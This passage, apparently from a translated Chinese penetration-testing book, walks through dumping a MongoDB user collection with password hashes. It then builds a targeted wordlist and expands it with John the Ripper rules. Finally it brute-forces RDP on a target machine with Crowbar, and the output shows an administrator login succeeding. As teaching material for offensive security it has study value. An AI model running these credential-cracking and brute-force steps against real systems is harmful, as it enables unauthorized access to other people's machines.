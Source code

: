 ```
“用户”集合显然是一个重要的目标:
```
>	db.users.find({})
{ "_id" : ObjectId("5852f4029c12654f92094f1e"), "login"	:	"admin","pass","415847a30cb264ffa270c40e979f9c6d", "admin", "read_priv" : "Y" }
{ "_id" : ObjectId("5852f4029c12654f92094f1f"), "login"	:	"stats",	"pass"	: "d106b29303767527fc11214f1b325fb6", "role" : "stats", "read_priv" : "Y" }
{ "_id" : ObjectId("5852f4029c12654f92094f20"),"login"	:	"backup",	"pass"	: "2c3bcecc4a6bcfebcbfbaa5dd3d6159d", "role" : "stats", "read_priv" : "Y" }
```

答对 了！似乎我们有用户帐户和密码来访问一些未知的应用程序。我们可以再次尝试使用John the Ripper破解散列，但在Google上快速搜索管理员的散列显示，对应的密码实际上是：“Slash！’。

如果我们回到nmap结果，我们会看到MongoDB机器上的端口3389是公开的。此服务允许使用Windows上的mstsc或Linux上的rdesktop等工具远程访问Windows计算机。让我们重新使用刚才检索到的密码:
 ![](./Chap2/40.rdp.png)

够近了！虽然它没有立即工作，密码” Slash!”让我们对管理员如何选择密码有了宝贵的了解。我们可以建立一个基于相同格式的候选词列表，然后在远程机器上尝试每一个候选词，直到我们击中！

暴力攻击当然可能触发警报，甚至暂时锁定帐户，因此在这种情况下，我们将避免它，因为我们已经拥有这么多机器。不过，我还是会详细说明执行步骤，以防万一。

首先，我们根据前面得到的密码手动生成一个关键字库:
```
slash 
paul 
slashPaul 
slash! 
slash$ 
slash* 
paul! 
holdings 
holding 
slashPaul 
slashpaul
slashslash
```

然后我们使用John The Ripper对这些关键字应用多种变体（添加数字、特殊字符、大写的第一个字符等）
```
FrontGun$ john --wordlist=pass.txt --rules –stdout > pass_file.txt

slashslash2 slash! paul! slashpaul! holdings! holding! slashpaul! slashslash! slash3 paul3 slashpaul3 holdings3 holding3 slashpaul3 slashslash3 slash7 paul7 slashpaul7 […]
```

现在我们将这个新构建的列表提供给一个执行RDP暴力破解的工具：Patator、THC Hydra、Crowbar等:
```
FrontGun$	python	crowbar.py	-b	rdp	-s 172.31.19.22/32 -u administrator -C pass_file.txt

2017-01-15 12:10:14 START
2017-01-15 12:10:14 Crowbar v0.3.5-dev
2017-01-15 12:10:14 Trying 192.168.1.52:3389
2017-01-15 12:10:30 RDP-SUCCESS:172.31.19.22:3389 - administrator:Slashpaul!
2017-01-15 12:10:38 STOP
```

此时我们几乎可以确定我们在Bluebox网络中拥有一台机器。这意味着我们可以开始考虑攻击内部网络的方法。

不过，我们不要着急。我们仍然在Bluebox（公共DMZ）中，我们需要解决一些基本问题，比如：我们在哪台机器上？我们有什么特权？这个网段还有哪些重要的服务器？这就是它特别有趣的地方！





```